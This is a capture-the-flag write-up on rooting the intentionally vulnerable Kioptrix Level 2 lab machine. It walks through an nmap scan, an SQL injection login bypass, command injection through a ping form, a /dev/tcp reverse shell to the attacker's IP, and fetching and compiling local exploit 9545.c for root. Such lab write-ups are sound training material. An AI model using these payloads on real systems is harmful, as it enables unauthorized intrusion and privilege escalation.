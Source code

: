 # Kioptrix Level 2

Today, we will be attempting to gain root access to the machine "Kioptrix 2". The second part of the Kioptrix series, please note this machine is also very easy so if you are more experienced I recommend you leave this machine alone.

# *Requirements/Setup*
- Nmap
- A brain
- Ability to host the machine
- $IP defined as your vulnerable machines IP - (`export $IP=[ip]`).

# *Enumeration*

As per routine, we will run a standard nmap scan to being our ventures into this machine.

![enter image description here](https://github.com/7ud/writeups/blob/main/Vulnhub/images/kioptrix2/Screenshot_2022-10-27_12-52-48.png?raw=true)

```bash
nmap -sV -sC -oN initial.txt $IP
```

After running this scan, we can see it is running an **Apache server** on port `80` and `443`. This could be a potential entry point, upon opening the webserver in our browser, we see a login page.

![enter image description here](https://github.com/7ud/writeups/blob/main/Vulnhub/images/kioptrix2/Screenshot_2022-10-28_03-53-25.png?raw=true)

Before we run any vulnerability scans, we'll try out a simple test to see if we can perform any SQL injection by typing `admin'#` into the username box.

![enter image description here](https://github.com/7ud/writeups/blob/main/Vulnhub/images/kioptrix2/Screenshot_2022-10-28_03-54-01.png?raw=true)

Fortunately, it worked and it even gave us access to a new page which looks like we could perform command injection on. 

![enter image description here](https://github.com/7ud/writeups/blob/main/Vulnhub/images/kioptrix2/Screenshot_2022-10-28_03-57-08.png?raw=true)

By entering the IP address of a server we want to ping and then typing `&& whoami` after it proves we can remotely execute commands from the website. From here, we can try to get a revshell by starting up a netcat listener in a new terminal with:
```bash
nc -lvnp 443
```
Now, we need to execute a command on the website so as it creates a reverse shell, to do this, we will enter the following into the website:
```bash
sh -i >& /dev/tcp/[your-eth0-ip]/443 0>&1
```
If completed successfully, you should have a working reverse shell!

![enter image description here](https://github.com/7ud/writeups/blob/main/Vulnhub/images/kioptrix2/Screenshot_2022-10-28_04-05-47.png?raw=true)

However, we still haven't gained root, so we are not done yet. First, using a tool called `SearchSploit` we are going to find some potential exploits we can use to perform privilege escalation.

![enter image description here](https://github.com/7ud/writeups/blob/main/Vulnhub/images/kioptrix2/Screenshot_2022-10-28_04-10-47.png?raw=true)

```bash
searchsploit centos
```
The exploit `9545.c` seems to be a good option, to get thix exploit run:
 ```bash
cp /usr/share/exploitdb/exploits/linux/local/9545.c ~/
```
From here, we have to transfer this file to the machine we are attacking, to do so run the following:
```bash
python3 -m http.server 80
```
After this, your eth0 IP should route to a webserver with some files in it. Now in your rev shell run:
```bash
cd /tmp
curl http://[your-ip]/9545.c -o 9545.c
```
Almost there! Now we need to compile the C file using gcc.
```bash
gcc -o kioptrix 9545.c`
```
![enter image description here](https://github.com/7ud/writeups/blob/main/Vulnhub/images/kioptrix2/Screenshot_2022-10-28_04-18-20.png?raw=true)

And then simply run `./kioptrix` and if all done correctly you will have root access on the machine! Congrats!
